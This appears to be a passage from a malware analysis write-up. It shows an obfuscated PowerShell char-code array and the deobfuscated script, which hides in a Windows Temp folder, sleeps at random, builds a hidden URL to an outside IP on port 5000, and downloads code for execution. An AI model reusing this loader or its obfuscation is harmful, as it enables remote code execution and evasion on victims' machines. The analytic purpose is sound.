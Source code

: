 ``` powershell
981),(416-346),(807-702),(814-724),(1055-981),(1062-940),(778-692),(273-241),(641-580),(746-714),(687-616),(794-693),(969-853),(247-202),(406-324),(1022-925),(921-811),(770-670),(751-640),(626-517),(574-542),(172-127),(993-916),(752-647),(725-615),(725-620),(679-570),(496-379),(877-768),(263-231),(442-392),(234-183),(509-477),(207-162),(794-717),(264-167),(977-857),(335-230),(223-114),(648-531),(482-373),(1000-968),(455-399),(373-324),(797-787),(960-877),(954-838),(239-142),(430-316),(497-381),(504-459),(231-148),(980-872),(494-393),(746-645),(774-662),(999-967),(971-926),(1017-934),(697-596),(932-833),(565-454),(366-256),(920-820),(800-685),(702-670),(166-130),(1078-966),(211-123),(1050-968),(358-242),(430-316),(1031-961),(261-191),(1067-962),(277-187),(199-125),(646-524),(808-722),(294-284),(369-359),(278-242),(334-212),(362-272),(1032-912),(476-397),(441-355),(942-823),(1009-944),(374-273),(568-536),(488-427),(956-924),(492-419),(1051-941),(1097-979),(321-210),(645-538),(1004-903),(1034-989),(602-515),(380-279),(643-545),(677-595),(366-265),(701-588),(691-574),(534-433),(1018-903),(436-320),(151-119),(553-508),(941-856),(576-461),(428-327),(975-909),(288-191),(686-571),(392-287),(756-657),(1064-984),(203-106),(672-558),(543-428),(602-497),(491-381),(369-266),(167-135),(672-627),(512-427),(583-469),(278-173),(1014-982),(411-375),(548-467),(690-610),(474-352),(582-496),(630-528),(699-633),(502-423),(238-149),(213-106),(723-713),(950-914),(337-248),(508-438),(624-558),(738-668),(650-530),(230-147),(801-695),(796-729),(745-643),(675-565),(937-870),(490-458),(657-596),(483-451),(651-560),(777-694),(509-388),(1110-995),(740-624),(745-644),(360-251),(366-320),(290-206),(568-467),(340-220),(229-113),(760-714),(230-161),(228-118),(237-138),(978-867),(251-151),(814-709),(1004-894),(387-284),(839-746),(516-458),(729-671),(378-293),(452-368),(968-898),(752-696),(739-693),(281-210),(1064-963),(239-123),(467-384),(348-232),(247-133),(627-522),(1030-920),(452-349),(910-870),(598-562),(937-815),(468-378),(476-356),(199-120),(602-516),(644-525),(210-145),(731-630),(758-712),(689-622),(670-559),(290-180),(670-554),(966-865),(304-194),(1042-926),(511-470),(348-338),(375-365),(753-680),(586-476),(944-826),(420-309),(562-455),(299-198),(293-248),(842-773),(560-440),(914-802),(403-289),(782-681),(1043-928),(551-436),(979-874),(1068-957),(813-703),(830-798),(280-235),(464-397),(1038-927),(835-726),(846-737),(664-567),(547-437),(775-675),(736-704),(725-689),(642-553),(309-239),(425-359),(393-323),(992-872),(277-194),(342-236),(571-504),(734-632),(1062-952),(993-926),(447-437),(630-620),(234-151),(825-709),(406-309),(912-798),(286-170),(379-334),(413-330),(723-615),(1011-910),(636-535),(227-115),(815-783),(151-106),(900-817),(686-585),(668-569),(1107-996),(476-366),(796-696),(335-220),(357-325),(839-785),(573-525),(911-863),(125-115),(785-775),(579-497),(498-397),(594-485),(613-502),(945-827),(578-477),(177-132),(576-503),(623-507),(788-687),(406-297),(408-376),(512-467),(315-235),(670-573),(478-362),(466-362),(834-802),(609-573),(928-848),(501-418),(330-263),(796-685),(323-214),(286-177),(841-744),(291-181),(555-455),(409-329),(271
174),(649-533),(717-613),(927-895),(559-514),(746-676),(1087-976),(683-569),(839-740),(1092-991)))
```

We can deobfuscate this simply by using an echo command before the command block, which gives us the following:

``` powershell
.
iex
﻿Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$XxXWJGjPwxA = -join[char[]]((950-853),(964-866),(820-721),(1088-988),(769-668),(934-832),(1098-995),(907-803),(444-339),(600-494),(241-134),(877-769),(446-337),(270-160),(468-357),(482-370),(1047-934),(452-338),(731-616),(279-163),(685-568),(934-816),(618-499),(241-121),(1055-934),(1038-916),(742-677),(515-449),(175-108),(856-788),(1017-948),(902-832),(816-745),(438-366),(1013-940),(437-363),(370-295),(479-403),(424-347),(457-379),(262-183),(352-272),(712-631),(775-693),(601-518),(384-300),(953-868),(689-603),(779-692),(950-862),(604-515),(473-383),(1048-999),(478-428),(167-116),(968-916),(421-368),(800-746),(632-577),(532-476),(886-829),(682-634))
$OMDFgkSKhhgc = (1..12 | ForEach-Object { Get-Random -InputObject $XxXWJGjPwxA.ToCharArray() })

$UJgRlaEMS = Get-Random -Minimum 14 -Maximum 92
Start-Sleep -Seconds $UJgRlaEMS
$BHzAyAGYc = -join[char[]]((621-517),(985-869),(451-335),(1024-912),(453-395),(697-650),(948-901),(703-654),(255-202),(714-664),(687-641),(689-633),(194-137),(739-693),(235-186),(566-509),(984-928),(906-860),(695-645),(616-566),(419-364),(909-851),(864-811),(978-930),(401-353),(228-180),(1007-960))
$QPzVfBOYk = $BHzAyAGYc + $OMDFgkSKhhgc
$pXRtrFFiZJzV = Get-Random -Minimum 23 -Maximum 81
Start-Sleep -Seconds $pXRtrFFiZJzV

$zZxOVwAe = Invoke-WebRequest -UseBasicParsing -Uri $QPzVfBOYk
$YFBFxSjCfnC = [System.Text.Encoding]::UTF8.GetString($zZxOVwAe.Content)

```